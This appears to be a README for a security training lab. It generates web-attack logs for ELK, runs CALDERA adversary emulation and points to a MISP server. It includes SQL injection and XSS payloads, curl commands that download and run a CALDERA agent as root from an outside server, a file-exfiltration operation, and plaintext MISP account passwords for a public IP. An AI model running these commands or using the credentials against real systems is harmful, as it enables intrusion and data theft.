 
# Attack Anatomy

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   <img src="images/elk_index.JPG">
   
   #### Creat Index pattern  Stack Management > Index patterns
   <img src="images/create_index1.JPG">
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    <img src="images/create_index2.JPG">
    
  * Now go to Discover, you should have date visualisation like this
  <img src="images/elk_data.JPG">


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]


 
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";<br>
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;<br>
chmod +x splunkd1;<br>
./splunkd1 -server $server -group red1 -v<br>
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;<br>
chmod +x splunkdN;<br>
./splunkdN -server $server -group redN -v<br>
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>



## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>




https://github.com/kbandla/APTnotes
https://github.com/center-for-threat-informed-defense/adversary_emulation_library
https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/apt29/Intelligence_Summary.md
https://center-for-threat-informed-defense.github.io/attack-flow/example_flows/
https://docs.google.com/spreadsheets/u/1/d/1H9_xaxQHpWaa4O_Son4Gx0YOIzlcBWMsdvePFX68EKU/pubhtml?pli=1#
https://github.com/mxm0z?tab=repositories
https://github.com/mxm0z/awesome-threat-detection#trainings
https://github.com/microsoft/msticpy


https://mitre-attack.github.io/attack-navigator/



 
